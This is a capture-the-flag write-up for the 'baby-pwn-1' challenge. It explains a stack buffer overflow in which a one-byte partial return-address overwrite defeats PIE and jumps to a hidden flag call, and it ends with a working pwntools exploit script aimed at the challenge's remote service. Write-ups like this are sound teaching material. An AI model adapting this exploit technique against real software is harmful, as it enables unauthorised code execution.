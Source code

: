 # baby-pwn-1
> Write-up author: vreshco
## DESCRIPTION:
Kamu tau gak, Buffer Overflow bisa sangat berbahaya?

Koneksikan dengan service menggunakan command:

nc ctf.tcp1p.com 50283

## HINT:
- NONE
## STEPS:
1. First, download the binary file given, then check the binary type and it's protections.

> RESULT 64 bit binary file, not stripped.

![image](https://user-images.githubusercontent.com/70703371/216246376-2fdb7c1e-b719-4884-bfe8-3efbad3a77e9.png)


> RESULT - NO CANARY FOUND, PARTIAL RELRO 

![image](https://user-images.githubusercontent.com/70703371/216246535-68d7f683-9cda-4d79-8665-2e720bc670aa.png)


2. Let's decompile the binary.
3. Go Check the `vuln()` function.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/216247886-ac5675d9-311a-4885-b3f5-0367bd7f2151.png)


4. Based on it, there's a vuln at the `do-while`, we can control the **local_c** values by make an infinity loop, where we will set the `local_c` values beyond 121.
5. Hence we can do bufferoverflow and control the RIP.
6. But what seems odd here, there's no `flag()` function called. Since there's PIE protections hence we can't do simple ret2win. We only can change the **least significant bytes**. 
7. Let's try to disassemble the `vuln()` function using gdb.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/216251364-06dba21c-0de6-406b-af8a-1b429001bbfb.png)


8. Hmm.. There's no `flag()` function, let's check the `main()`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/216251462-d61b2908-43d5-47be-a09a-8c3beb7c62a5.png)


9. Found it!

![image](https://user-images.githubusercontent.com/70703371/216251567-33303243-6d63-4ad2-96c5-14cdcc7438bf.png)


10. Actually it's written already in ghidra disassembler.

![image](https://user-images.githubusercontent.com/70703371/216252008-5c22afe6-c9f8-4d70-853d-a1e2e5d69d24.png)


11. Now the payloads we need to send is the padding bytes to reach the `local_c` variables, the last index of the `main()` return address, and the `flag()` call at main -> `main+23`.
12. For the padding bytes is 108 -> 104 + 4 bytes (int).

> 104 + int local_10 = 108

![image](https://user-images.githubusercontent.com/70703371/216325193-fbe36173-c3b0-4e45-8e26-170d5069bf79.png)


14. Then for the last index of main's return address is 142.

![image](https://user-images.githubusercontent.com/70703371/216325300-938eb374-3921-4dbe-a73b-3247c3bfebd6.png)


15. Flag call.

![image](https://user-images.githubusercontent.com/70703371/216325404-f8d779c1-4a0a-4dc3-9e1e-ced7070ca617.png)


16. I used **pwntools** to make the script.

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)


exe = './chall'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'
sh = start()

offset = b'A' * 108 # padding to reach local_c
# usage of 0xff:
# it leaves only the value in the last 8 bits, and ignores all the rest of the bits.
flagCall = (elf.sym['main']+23) & 0xff # main+23 the flag call is at +23
p = flat([
    offset,
    # use p8() because we want to control the RIP by changing the least significant bytes.
    p8(142), 
    p8(flagCall)
])

sh.sendlineafter(b'',p)
sh.interactive()
```


